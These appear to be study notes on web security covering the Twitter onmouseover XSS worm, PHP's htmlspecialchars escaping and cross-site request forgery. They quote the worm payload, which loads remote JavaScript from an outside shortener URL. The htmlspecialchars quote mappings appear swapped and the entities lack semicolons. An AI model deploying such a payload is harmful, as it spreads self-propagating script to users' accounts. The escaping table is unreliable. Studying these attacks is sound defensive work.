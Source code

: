 What happens if somebody tweets:
```
  http://t.co/@"onmouseover="$.getScript('http:\u002f\u002fis.gd\u002ffl9A7')”/
```
Twitter displays:
```
<a href="http://t.co@"onmouseover=” $.getScript('http:\u002f\u002fis.gd\u002 ffl9A7')"/">...</a>
```

Anyone putting mouse over such a twitter feed will will run JavaScript that puts a similar message in their own feed.

The actual attack used:
```
  http://t.co/@"style="font-size:999999999999px;"onmouseover=”.../
```

### PHP HTML Sanitisation
`htmlspecialchars()` removes characters that cause problems in HTML:
- & becomes &amp
- < becomes &lt
- \> becomes &gt
- ‘ becomes &quot
- “ becomes &#039

### Cross Site Request Forgery (CSRF)
1. Victim is logged into vulnerable web site
2. Victim visits malicious page on attacker web site
3. Malicious content is delivered to victim
4. Victim sends a request to the vulnerable web site

![CSRF](img/CSRF.jpg)

One well-known CSRF attack in Brazil tried request forgery on the computer's router (which usually has awful security) and changed the DNS server to a custom one. This helped add an appearance of legitimacy to phishing attacks - phishing pages would now even have the 'correct'/expected domain name.

#### Solutions to CSRF
##### 1
Check the value of the Referrer header?? NOPE
- Attacker cannot spoof the value of the Referrer header in the users browser (but the user can).
- Legitimate requests may be stripped of their Referrer header
- Proxies
- Web application firewalls
